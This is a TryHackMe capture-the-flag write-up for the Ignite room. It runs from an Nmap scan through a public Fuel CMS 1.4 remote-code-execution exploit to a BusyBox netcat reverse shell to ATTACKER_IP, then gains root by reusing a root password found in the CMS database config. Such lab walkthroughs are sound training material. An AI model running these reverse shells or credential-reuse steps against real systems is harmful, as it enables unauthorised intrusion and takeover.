







This is a write-up for Ignite on TryHackMe. The room starts with a Fuel CMS web application and leads from remote code execution to root access through exposed credentials.
./01 Reconnaissance
After starting the instance, I ran an Nmap scan to identify the services exposed by the target.
nmap -sC -sV TARGET_IP
Visiting the web server showed that it was running Fuel CMS version 1.4.

./02 Initial Access
I looked for known exploits for this version and found a Fuel CMS 1.4 remote-code-execution exploit in Exploit-DB.

The exploit needed a few adjustments to run with Python 3. After updating it, I used a BusyBox Netcat payload and set up a listener:
python3 exploit.py
busybox nc ATTACKER_IP 9090 -e sh
nc -lvnp 9090
With a shell on the target, I read the user flag from /home/www-data/flag.txt.

./03 Privilege Escalation
Now that I had a shell, it was time to escalate privileges. LinPEAS did not reveal anything immediately suspicious, so I checked the Fuel CMS configuration files under /var/www/html.
In /var/www/html/fuel/application/config/database.php, I found the password mememe for the root account.

I tried the credential with su -, which gave me root access. I could then read the root flag.
su -
# password: mememe
cat /root/root.txt
The attack chain was straightforward: identify an outdated Fuel CMS installation, use its public remote-code-execution exploit for an initial shell, then recover and reuse the root password stored in the application configuration.